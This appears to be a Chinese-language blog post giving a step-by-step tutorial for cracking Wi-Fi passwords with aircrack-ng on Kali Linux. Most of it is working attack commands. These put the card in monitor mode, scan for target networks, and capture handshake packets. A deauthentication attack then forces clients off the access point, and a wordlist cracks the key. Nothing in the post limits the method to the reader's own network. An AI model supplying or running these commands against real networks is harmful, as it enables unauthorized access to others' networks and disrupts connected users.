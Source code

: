 ```yaml
---
layout: post
title: Aircrack破解wifi密码
---
```

<img src="/images/wifi.jpg" class="fit image"> 
  
## 实验过程

### 破解准备 
  * kali系统笔记本
  * 无线网卡模块
  * 安装aircrack-ng包

### 确认网卡
  进入系统后，首先ifconfig看我们的无线网卡是否有正常工作。
  如果没有开启，输入airmon-ng wlan0 up加载无线网卡
  在这里wlan0就是我的网卡，现在已经正常开启
  
 <center>
  <img src="/images/thumbs/wlan0.png" width=180 height=181.5 /">
 </center>
### 开启监听
```
root@kali:~$ airmon-ng start wlan0
```
<img src="/images/0.9.jpg" class="fit image">
### 扫描目标wifi
 ```
 root@kali:~$ airodump-ng wlan0mon
 ```
### 开始抓握手包
 ```
 root@kali:~$ airodump-ng --ivs -w abc -c 6 mon0 
 ```

 1. ivs是通过ivs过滤，只保留可以破解密码的报文.ivs文件，这样比较快点
 2. -w是将抓取的报文写入命名为abc并保存（之后会在当前文件夹保存为abc-01.ivs）
 3. -c后面跟频道CH，如这里的6 
 
### 强制客户端重连
 ```
aireplay-ng -0 1 -a AP的Mac地址 -c 客户端的Mac地址 interface
 ```
 + -0 1：表示使用Deauth攻击模式，后面的1表示攻击次数
 + -a :表示AP的Mac地址
 + -c ：表示客户端的Mac地址
 + interface：网卡
 
### 使用密码本破解
 ```
  root@kali:~$ aircrack-ng abc-01.ivs -w pass-wifi.txt
 ```
 *-w是指定我的密码本

